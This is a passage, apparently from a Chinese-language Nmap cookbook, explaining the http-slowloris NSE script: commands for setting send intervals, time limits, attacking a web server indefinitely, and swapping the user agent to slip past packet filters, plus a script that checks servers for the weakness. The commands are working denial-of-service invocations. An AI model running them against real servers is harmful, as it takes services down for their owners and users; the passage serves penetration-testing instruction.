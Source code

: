 $ nmap -p80 --script http-slowloris --script-args http-slowloris.send_interval=200 --max-parallelism 300

```

要在一定时间内运行 slowloris 攻击，请使用以下命令中显示的脚本参数`http-slowloris.timelimit`：

```
$ nmap -p80 --script http-slowloris --script-args http-slowloris.timelimit=15m <target>

```

或者，还有一个参数可用于告诉 Nmap 无限期地攻击目标，如以下命令所示：

```
$ nmap -p80 --script http-slowloris --script-args http-slowloris.runforever <target>

```

还有另一个用于检查易受攻击的 Web 服务器的 NSE 脚本，名为`http-slowloris-check`，由 Aleksandar Nikolic 编写。此脚本仅发送两个请求，并且它使用巧妙的方法通过读取和比较连接超时来检测易受攻击的服务器：

```
$ nmap -p80 --script http-slowloris-check <target>

```

### HTTP 用户代理

有一些数据包过滤产品会阻止使用 Nmap 的默认 HTTP 用户代理发出的请求。您可以通过设置参数`http.useragent`来使用不同的用户代理值：

```
$ nmap -p80 --script http-slowloris --script-args http.useragent="Mozilla 42" <target>

```

## 另请参阅

+   检测可能的 XST 漏洞的方法

+   发现各种 Web 服务器上有趣的文件和目录的方法

+   检测 Web 应用程序防火墙的方法

+   在 Web 应用程序中测试默认凭据的方法

+   在 Web 应用程序中找到 SQL 注入漏洞的方法
